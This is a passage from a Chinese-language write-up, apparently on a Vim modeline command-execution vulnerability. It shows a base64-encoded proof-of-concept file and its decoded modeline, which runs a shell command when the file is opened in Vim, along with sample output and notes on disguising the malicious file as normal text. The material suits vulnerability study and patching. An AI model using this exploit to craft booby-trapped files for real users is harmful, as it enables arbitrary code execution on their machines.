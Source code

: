     - 检查Vim配置是否开启modeline，若没有则配置Vim

      ```shell
      # 检查modeline配置
      vim
      :verbose set modeline? set modelines?
      # 如果显示nomodeline或者nomodelines表示没有配置
      
      # 配置方法：
      vim ~/.vimrc
      i
      set modeline
      set modelines=5
      <ESC>
      :wq
      
      ```

- 第一步 创建poc文件

  ```shell
  echo "G1s/OiF1bmFtZSAtYXx8IiB2aTpmZW46ZmRtPWV4cHI6ZmRlPWFzc2VydF9mYWlscygic291cmNlXCFcIFwlIik6ZmRsPTA6ZmR0PSIK" | base64 --decode > poc.txt
  
  base64编码明文：
  :!uname -a||" vi:fen:fdm=expr:fde=assert_fails("source\!\ \%"):fdl=0:fdt="\n
  
  ```

- 第二步 用vim打开触发命令执行``(uname -a)``

  ```shell
  $ vim poc.txt 
  
  Linux ubuntu 4.4.0-112-generic #135-Ubuntu SMP Fri Jan 19 11:48:36 UTC 2018 x86_64 x86_64 x86_64 GNU/Linux
  
  Press ENTER or type command to continue
  
  ```



### 4.EXP

#### a.EXP原理

- Exp是一条精心构造的modeline，主要是为了把恶意文件伪造成正常文本，消除痕迹； 

- 可以分为两部分，一部分用于欺骗Vim，实现代码执行，隐藏恶意文本内容；

- 另一部分用于欺骗cat，使文本打开时看起来是正常文本；
